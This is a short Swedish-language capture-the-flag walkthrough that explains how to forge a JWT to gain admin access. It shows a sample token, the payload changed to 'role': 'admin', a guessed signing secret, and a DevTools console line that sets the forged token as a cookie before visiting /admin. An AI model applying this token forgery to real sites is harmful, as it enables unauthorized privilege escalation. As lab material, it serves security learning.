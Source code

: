🧾 JWT Manipulation – Become Admin

🔄 Gör det direkt i jwt.io

Gå till jwt.io

Klistra in din JWT, t.ex.:

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ICJ1c2VyIiwgInJvbGUiOiAidXNlciIsICJleHAiOiAxNzQxOTYxOTYzfQ.p2egRol2RTzmjCgiAffOba1htqma-RfEJC0ZtZsQcE0

Ändra payload:

"role": "admin"

Scrolla ner till "Verify Signature"

Radera hemligheten

Skriv istället: MAYCAQACAQA=

JWT:n blir nu signerad som admin – kopiera hela nya token.

💻 Använd JWT i webbläsaren:

Öppna DevTools → Console:

document.cookie = "auth_token=DIN_NYA_JWT_HÄR; path=/";

Gå till /admin

🏁 Får du flaggan? Yes!
